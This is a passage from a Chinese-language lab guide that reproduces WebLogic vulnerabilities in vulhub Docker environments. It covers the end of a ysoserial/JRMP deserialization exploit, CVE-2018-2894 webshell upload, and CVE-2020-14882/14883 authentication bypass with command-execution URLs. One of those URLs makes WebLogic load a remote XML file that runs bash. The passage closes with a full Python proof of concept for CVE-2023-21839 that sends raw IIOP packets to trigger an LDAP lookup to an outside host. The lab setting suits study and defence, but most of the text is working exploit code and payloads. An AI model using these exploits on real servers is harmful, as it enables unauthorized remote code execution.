        print('exploit.py [victim ip] [victim port] [path to ysoserial] '
              '[JRMPListener ip] [JRMPListener port] [JRMPClient]\n')
        print('Example:')
        print('  python3 exploit.py 10.0.0.11 7001 ysoserial.jar 10.0.0.5 1099 JRMPClient')
        print('  python3 exploit.py 10.0.0.11 7001 ysoserial.jar 10.0.0.5 1099 JRMPClient2\n')
        sys.exit()

    dip = sys.argv[1]
    dport = int(sys.argv[2])
    path_ysoserial = sys.argv[3]
    jrmp_listener_ip = sys.argv[4]
    jrmp_listener_port = sys.argv[5]
    jrmp_client = sys.argv[6]
    exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
```


```bash
# python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
python3 exploit.py 192.168.56.111 7001 /tmp/docker/xml2/ysoserial-all.jar 192.168.56.111 9999 JRMPClient
```

其中，[victim ip] 和 [victim port] 是目标 weblogic 的 IP 和端口，[path to ysoserial] 是本地 ysoserial 的路径，[JRMPListener ip] 和 [JRMPListener port] 第一步中启动 JRMP Server 的 IP 地址和端口。[JRMPClient] 是执行 JRMPClient 的类，可选的值是 JRMPClient 或 JRMPClient2。

exploit.py 执行完成后，执行 docker compose exec weblogic bash 进入容器中，可见/tmp/success 已成功创建。



## Weblogic 任意文件上传漏洞（CVE-2018-2894）

Oracle 7 月更新中，修复了 Weblogic Web Service Test Page 中一处任意文件上传漏洞，Web Service Test Page 在"生产模式"下默认不开启，所以该漏洞有一定限制。利用该漏洞，可以上传任意 jsp 文件，进而获取服务器权限。

### 环境搭建

执行如下命令，启动 weblogic 12.2.1.3：

```bash
# 创建 docker-compose.yml 文件
cat << "YML" > docker-compose.yml
services:
 weblogic:
   image: vulhub/weblogic:12.2.1.3-2018
   ports:
    - "7001:7001"
YML

# 启动服务
docker compose up -d
```

环境启动后，访问 http://your-ip:7001/console，即可看到后台登录页面。

执行 docker compose logs | grep password 可查看管理员密码，管理员用户名为 weblogic。



登录后台页面，点击 base_domain 的配置，在"高级"中开启"启用 Web 服务测试页"选项：



### 漏洞复现


访问 `http://your-ip:7001/ws_utc/config.do`，设置 Work Home Dir 为 `/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`。我将目录设置为 ws_utc 应用的静态文件 css 目录，访问这个目录是无需权限的，这一点很重要。



然后点击安全 -> 增加，然后上传 webshell：



上传后，查看返回的数据包，其中有时间戳，然后访问 `http://your-ip:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]`，即可执行 webshell：



## Weblogic 管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）

CVE-2020-14882 允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883 允许后台任意用户通过 HTTP 协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个 GET 请求在远程 Weblogic 服务器上以未授权的任意用户身份执行命令。

### 环境搭建

执行如下命令启动一个 Weblogic 12.2.1.3 版本的服务器：

```bash
# 创建 docker-compose.yml 文件
cat << "YML" > docker-compose.yml
services:
 weblogic:
   image: vulhub/weblogic:12.2.1.3-2018
   ports:
    - "7001:7001"
YML

# 启动服务
docker compose up -d
```

启动完成后，访问 `http://your-ip:7001/console` 即可查看到后台登录页面。

### 漏洞复现

首先测试权限绕过漏洞（CVE-2020-14882），访问以下 URL `http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
` ，即可未授权访问到管理后台页面：



访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码：



此时需要利用到第二个漏洞 CVE-2020-14883。这个漏洞的利用方式有两种，一是通过 com.tangosol.coherence.mvel2.sh.ShellSession，二是通过 com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext。

直接访问如下 URL，即可利用 com.tangosol.coherence.mvel2.sh.ShellSession 执行命令：

```http
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

进入容器，可以发现 touch /tmp/success1 已成功执行：



这个利用方法只能在 Weblogic 12.2.1 以上版本利用，因为 10.3.6 并不存在 com.tangosol.coherence.mvel2.sh.ShellSession 类。

com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext 是一种更为通杀的方法，最早在 CVE-2019-2725 被提出，对于所有 Weblogic 版本均有效。

首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上，如 http://example.com/rce.xml：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下 URL，即可让 Weblogic 加载这个 XML，并执行其中的命令：

```http
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```



这个利用方法也有自己的缺点，就是需要 Weblogic 的服务器能够访问到恶意 XML。


## WebLogic 未授权远程代码执行漏洞 (CVE-2023-21839)

在 Oracle 2023 年 1 月安全公告 中，Oracle 修复了影响 WebLogic Server 12.2.1.3.0、12.2.1.4.0 和 14.1.1.0.0 版本的严重安全漏洞 CVE-2023-21839。该漏洞允许未授权远程攻击者通过 T3 或 IIOP 协议发起 JNDI lookup 操作。如果 JDK 版本过低或本地存在可用的反序列化 gadget（javaSerializedData），攻击者可进一步实现远程代码执行（RCE）。

### 环境搭建

执行以下命令启动 WebLogic Server 12.2.1.3 漏洞环境：

```bash
# 创建 docker-compose.yml 文件
cat << "YML" > docker-compose.yml
services:
 weblogic:
   image: vulhub/weblogic:12.2.1.3-2018
   ports:
    - "7001:7001"
YML

# 启动服务
docker compose up -d
```

启动完成后，访问 `http://your-ip:7001/console` 可以看到 WebLogic 管理控制台登录页。

### 漏洞复现

你可以使用公开的 POC 工具 https://github.com/houqe/POC_CVE-2023-21839 进行漏洞复现。

```python
# -*- encoding: utf-8 -*-
import socket
import argparse

class POC:

    def __init__(self, target, port, ldap):
        self.target = target
        self.port = port
        self.timeout = 5
        self.ldap = ldap

    def verify(self):
        vp = "743320392e322e302e300a41533a3235350a484c3a39320a4d5" \
             "33a31303030303030300a50553a74333a2f2f746573743a373030310a0a"
        print("[*] ip :",self.target)
        print("[*] port :",self.port)
        print("[*] ldap :",self.ldap)
        ver = getVer(self.target, self.port, bytes.fromhex(vp))
        wlsKey1 = None
        wlsKey2 = None
        if ver == '12':
            wlsKey1 = "00424541080103000000000c41646d696e53657276657200000000000000003349" \
                      "444c3a7765626c6f6769632f636f7262612f636f732f6e616d696e672f4e616d696e6743" \
                      "6f6e74657874416e793a312e3000000000000238000000000000014245412c0000001000" \
                      "00000000000000{{key1}}"
            wlsKey2 = "00424541080103000000000c41646d696e53657276657200000000000000003349" \
                      "444c3a7765626c6f6769632f636f7262612f636f732f6e616d696e672f4e616d696e6743" \
                      "6f6e74657874416e793a312e30000000000004{{key3}}000000014245412c0000001000" \
                      "00000000000000{{key1}}"
        elif ver == '14':
            wlsKey1 = "00424541080103000000000c41646" \
                      "d696e53657276657200000000000000003349444c3a7765626c" \
                      "6f6769632f636f7262612f636f732f6e616d696e672f4e616d6" \
                      "96e67436f6e74657874416e793a312e30000000000002380000" \
                      "00000000014245412e000000100000000000000000{{key1}}"
            wlsKey2 = "00424541080103000000000c41646d696e53657276657" \
                      "200000000000000003349444c3a7765626c6f6769632f636f72" \
                      "62612f636f732f6e616d696e672f4e616d696e67436f6e74657" \
                      "874416e793a312e30000000000004{{key3}}00000001424541" \
                      "2e000000100000000000000000{{key1}}"
        else:
            print("[*] ",'版本不符合影响范围')
            return

        try:
            ldap = str(hex(len(self.ldap)))[2:] + self.ldap.encode().hex()
            print("[*] version: " ,ver)

            soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            soc.settimeout(self.timeout)
            soc.connect((self.target, int(self.port)))
            str2 = "47494f50010200030000001700000002000000000000000b4e616d6553657276696365"
            soc.send(bytes.fromhex(str2))
            buf = soc.recv(1024)
            print("[*] 2 ", 'locateRequest')

            ioff = 0x60
            while True:
                if buf[ioff] != 0x00:
                    ioff = ioff + 0x01
                else:
                    break
            if ioff > 1024 * 10:
                return
            while True:
                if buf[ioff] == 0x00:
                    ioff = ioff + 0x01
                else:
                    break
            p = []
            p.append(buf[ioff])
            ioff = ioff + 0x01
            p.append(buf[ioff])
            tmport = int(p[1]) | int(p[0]) << 8
            if tmport != int(self.port):
                return
            lt = ioff - 0x60
            foff = 0x60 + lt + 0x75
            while True:
                if buf[foff] == 0x0:
                    foff = foff + 0x01
                else:
                    break

            key1 = buf[foff:foff + 8].hex()
            key2 = (b'\xff\xff\xff\xff' + buf[foff + 4:foff + 8]).hex()
            wlsKey1 = wlsKey1.replace("{{key1}}",key1)
            str3_request = "00000003030000000000000000000078"+wlsKey1+"0000000b726562696e645f616e79000000000006000000050000001c00000000000000010000000d3137322e32362e3131322e310000ec5b000000010000000c00000000000100200501000100000006000000f4000000000000002849444c3a6f6d672e6f72672f53656e64696e67436f6e746578742f436f6465426173653a312e30000000000100000000000000b8000102000000000d3137322e32362e3131322e310000ec5b0000006400424541080103000000000100000000000000000000002849444c3a6f6d672e6f72672f53656e64696e67436f6e746578742f436f6465426173653a312e30000000000331320000000000014245412a0000001000000000000000005eedafdebc0d227000000001000000010000002c00000000000100200000000300010020000100010501000100010100000000030001010000010109050100010000000f00000020000000000000000000000000000000010000000000000000010000000000000042454103000000140000000000000000"+key2+"000000004245410000000004000a03010000000000000001000000047465737400000001000000000000001d0000001c000000000000000100000000000000010000000000000000000000007fffff0200000054524d493a7765626c6f6769632e6a6e64692e696e7465726e616c2e466f726569676e4f70617175655265666572656e63653a443233374439314342324630463638413a3344323135323746454435393645463100000000007fffff020000002349444c3a6f6d672e6f72672f434f5242412f57537472696e6756616c75653a312e300000000000"+ldap
            str_size = str(hex(int(len(str3_request)/2))).replace("0x","")
            while len(str_size) != 8:
                str_size = "0"+str_size
            str3_header = "47494f5001020000"+str_size
            str3 = str3_header+str3_request
            soc.send(bytes.fromhex(str3))
            buf = soc.recv(1024)
            print("[*] 3 ", 'rebindAny')

            startoff = 0x64 + lt + 0xc0 + len(self.target) + 0xac + lt + 0x5d

            while buf[startoff] != 0x32:
                if startoff > 0x2710:
                    break
                startoff = startoff + 0x01


            if startoff > 0x2710:
                key3 = b'\x32\x38\x39\x00'.hex()
            else:
                key3 = buf[startoff : startoff+4].hex()
            wlsKey2 = wlsKey2.replace("{{key3}}",key3)
            wlsKey2 = wlsKey2.replace("{{key1}}",key1)
            str4_request = "00000004030000000000000000000078"+wlsKey2+"0000000b726562696e645f616e79000000000004000000050000001c00000000000000010000000d3137322e32362e3131322e310000ec5b000000010000000c00000000000100200501000142454103000000140000000000000000"+key2+"000000004245410000000004000a030100000001000000047465737400000001000000000000001d0000001c000000000000000100000000000000010000000000000000000000007fffff0200000054524d493a7765626c6f6769632e6a6e64692e696e7465726e616c2e466f726569676e4f70617175655265666572656e63653a443233374439314342324630463638413a3344323135323746454435393645463100000000007fffff020000002349444c3a6f6d672e6f72672f434f5242412f57537472696e6756616c75653a312e300000000000"+ldap
            str_size = str(hex(int(len(str4_request) / 2))).replace("0x", "")
            while len(str_size) != 8:
                str_size = "0"+str_size
            str4_header = "47494f5001020000"+str_size
            str4 = str4_header+str4_request
            soc.send(bytes.fromhex(str4))
            buf = soc.recv(1024)
            print("[*] 4 ",'rebindAny')


            str5 = "47494f50010200030000001700000005000000000000000b4e616d6553657276696365"
            soc.send(bytes.fromhex(str5))
            buf = soc.recv(1024)
            print("[*] 5 ",'locateRequest')


            str6 = "47494f50010200000000011100000006030000000000000000000078"+wlsKey1+"000000087265736f6c76650000000004000000050000001c00000000000000010000000d3137322e32362e3131322e310000ec5b000000010000000c00000000000100200501000142454103000000140000000000000000"+key2+"000000004245410000000004000a030100000000000000010000000574657374000000000000000100"
            soc.send(bytes.fromhex(str6))
            buf = soc.recv(1024)
            print("[*] 6 ",'resolve')

            str7 = "47494f50010200000000011100000007030000000000000000000078"+wlsKey2+"000000087265736f6c76650000000004000000050000001c00000000000000010000000d3137322e32362e3131322e310000ec5b000000010000000c00000000000100200501000142454103000000140000000000000000"+key2+"000000004245410000000004000a030100000000000000010000000574657374000000000000000100"
            soc.send(bytes.fromhex(str7))
            buf = soc.recv(1024)
            print("[*] 7 ",'resolve')

        except Exception as e:
            print("[-] ","run error: ",e)
        finally:
            if soc:
                soc.close()


def getVer(host, port, vp):
    soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    soc.settimeout(5)
    soc.connect((host, int(port)))
    try:
        soc.send(vp)
        buf = soc.recv(1024)
        ver = buf[5:7]
        if ver[0] == 0x00 or ver[1] == 0x00:
            return ""
        return bytes.decode(ver)
    except:
        pass
    finally:
        if soc:
            soc.close()


if __name__ == "__main__":
    banner = '''
   ___         __    ____   ___ ____  _____      ____  _  ___ _____ ___  
  / __\/\   /\/__\  |___ \ / _ \___ \|___ /     |___ \/ |( _ )___ // _ \ 
 / /   \ \ / /_\_____ __) | | | |__) | |_ \ _____ __) | |/ _ \ |_ \ (_) |
/ /___  \ V //_|_____/ __/| |_| / __/ ___) |_____/ __/| | (_) |__) \__, |
\____/   \_/\__/    |_____|\___/_____|____/     |_____|_|\___/____/  /_/ 
    '''
    print(banner)
    parser = argparse.ArgumentParser(description="Please enter parameters")
    parser.add_argument('-ip','--ip',type=str,metavar='',help='target ip')
    parser.add_argument('-p','--port',type=str,metavar='', default = '7001' , help='target port')
    parser.add_argument('-l','--ldap',type=str,metavar='',help='ldap')
    args = parser.parse_args()
    if args.ip is None or args.port is None:
        parser.usage
    POC(args.ip, args.port, args.ldap).verify()
```

```bash
python CVE-2023-21839.py -ip 192.168.25.129 -p 7001 -l ldap://61d4d43a.log.dnslog.pp.ua/test
```

漏洞利用成功后，可在 DNSLog 平台或 LDAP 服务端看到来自目标服务器的请求，如下图所示：


